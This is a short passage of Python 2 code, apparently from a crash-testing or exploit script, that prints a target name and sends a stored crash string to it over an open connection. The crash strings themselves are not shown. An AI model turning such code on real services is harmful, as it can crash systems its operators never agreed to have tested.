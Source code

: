 ```
        conn.close()
        break
    print "[*] Target is ",target
    conn.sendline(crashstrings[target.strip()])
```


